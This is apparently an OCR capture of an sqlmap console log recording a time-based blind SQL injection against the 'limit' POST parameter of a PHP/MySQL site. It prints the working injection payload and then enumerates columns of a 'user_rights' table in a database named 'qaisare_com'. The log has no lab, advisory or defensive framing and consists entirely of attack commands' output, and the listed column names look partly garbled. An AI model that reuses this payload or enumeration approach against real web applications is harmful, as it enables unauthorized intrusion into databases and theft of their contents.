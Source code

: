 [*] starting at 18:42:16

[18:42:16] [INFO] loading tamper module 'between'
[18:42:16] [INFO] resuming back-end DBMS 'mysql' 
[18:42:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:42:16] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:42:16] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:42:16] [INFO] fetching columns for table 'user_rights' in database 'qaisare_com'
[18:42:16] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:42:25] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:42:25] [ERROR] unable to retrieve the number of columns for table 'user_rights' in database 'qaisare_com'
[18:42:25] [WARNING] unable to retrieve column names for table 'user_rights' in database 'qaisare_com'
Database: qaisare_com
Table: user_rights
[12 columns]
+------------------+---------+
| Column           | Type    |
+------------------+---------+
| ajar             | numeric |
| country_2_code   | numeric |
| flscrvpre        | numeric |
| grand            | numeric |
| idgroup          | numeric |
| mealid           | numeric |
| mod_translate    | numeric |
| pins             | numeric |
| product_price_id | numeric |
| progetto         | numeric |
| tags             | numeric |
| u_id             | numeric |
+------------------+---------+

